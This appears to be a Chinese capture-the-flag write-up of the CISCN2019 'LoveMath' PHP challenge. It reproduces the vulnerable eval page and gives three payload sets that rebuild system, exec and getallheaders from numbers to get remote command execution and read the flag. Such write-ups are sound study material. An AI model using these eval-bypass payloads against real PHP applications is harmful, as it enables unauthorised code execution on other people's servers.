

# CISCN2019初赛-LoveMath

参考博客：https://www.cnblogs.com/yesec/p/12664136.html

一上来直接就是源码

```
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

分析一下源代码

一开始是限制了传入参数的长度，然后有黑名单过滤，最后是白名单，这里的白名单是常用的数学函数。

## 解法一：构造$_GET或者用getallheaders

黑名单过滤了不少东西，常规的cat/flag都不能使用了，这里有个知识点是php中可以把函数名通过字符串的方式传递给一个变量，然后通过此变量动态调用函数比如下面的代码会执行 system(‘cat/flag’);

例：

```
?c=($_GET[a])($_GET[b])&a=system&b=cat /flag
```

但$_GET、a、b都不属于白名单内，需要替换出来

a,b可以用白名单中的数学函数名来替换，例如pi,abs

这样就变成了`?c=($_GET[pi])($_GET[abs])&pi=system&abs=cat /flag`

但是这里的_GET是无法进行直接替换，而且[]也被黑名单过滤了

所以我们需要用已知白名单中的数学函数构造出来

这里讲几个函数：

**hex2bin() 函数**：hex2bin() 函数把十六进制值的字符串转换为 ASCII 字符。(**_GET也属于acii字符，它们的16进制值为5f 47 45 54**)

但5f 47 45 54也不能直接传值，因为 `preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);`  会检测它们

hex2bin()函数可以通过base_convert()函数来进行转换

**base_convert()**：



base_convert()函数能够在任意进制之间转换数字

**hex2bin可以看做是36进制，用base_convert来转换将在10进制的数字转换为16进制就可以出现hex2bin**

**hex2bin=base_convert(37907361743,10,36)**

后里面的5f 47 45 54要用**dechex()**函数将10进制数转换为16进制的数

dechex(1598506324)，1598506324转换为16进制就是5f 47 45 54

最终payload:

```
/?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=cat /flag

分析：
base_convert(37907361743,10,36) => "hex2bin"
dechex(1598506324) => "5f474554"
$pi=hex2bin("5f474554") => $pi="_GET"   //hex2bin将一串16进制数转换为二进制字符串
($$pi){pi}(($$pi){abs}) => ($_GET){pi}($_GET){abs}  //{}可以代替[]
```

或者：**getallheaders()代替get**

getallheaders - 获取当前请求的全部HTTP请求头信息

```
$pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){1})

分析：
base_convert(696468,10,36) => "exec"
$pi(8768397090111664438,10,30) => "getallheaders"
exec(getallheaders(){1})
//操作xx和yy，中间用逗号隔开，echo都能输出
echo xx,yy

然后在请求头中添加
1:cat /flag
```

## 解法二  拼凑出exec、system等命令执行函数直接RCE

```
/index.php?c=($pi=base_convert)(22950,23,34)($pi(76478043844,9,34)(dechex(109270211257898)))
//分析：exec('hex2bin(dechex(109270211257898))') => exec('cat f*')

/index.php?c=base_convert(1751504350,10,36)(base_convert(15941,10,36).(dechex(16)^asinh^pi))
//分析：system('cat'.dechex(16)^asinh^pi) => system('cat *')
```

---

## 解法三 拼凑出getallheaders利用HeaderRCE

> getallheaders — 获取全部 HTTP 请求头信息
>
> getallheaders用法可以参考:https://www.php.net/manual/zh/function.getallheaders.php

```
/index.php?c=$pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){1})
```

**在HTTP请求的Header中直接添加命令即可**

*分析：*

```
base_convert(696468,10,36) => "exec"
$pi(8768397090111664438,10,30) => "getallheaders"
exec(getallheaders(){1})
//操作xx和yy，中间用逗号隔开，echo都能输出
echo xx,yy
```

## 知识点

动态函数

php中可以把函数名通过字符串的方式传递给一个变量，然后通过此变量动态调用函数,比如下面的代码会执行 system(‘ls’);

```
$a='system'; 
$b='ls';
$a($b);
```
